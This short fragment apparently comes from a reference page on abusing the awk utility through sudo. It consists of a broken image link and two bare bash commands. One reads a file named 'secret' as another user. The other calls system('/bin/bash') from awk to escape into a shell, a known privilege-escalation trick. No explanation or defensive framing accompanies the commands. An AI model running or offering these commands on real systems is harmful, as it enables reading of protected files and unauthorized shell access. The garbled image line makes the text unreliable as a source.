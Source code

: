 
```bash
sudo -u user awk '{print $0}' /home/user/secret
```

```bash
sudo -u user awk '{system("/bin/bash")}'
```

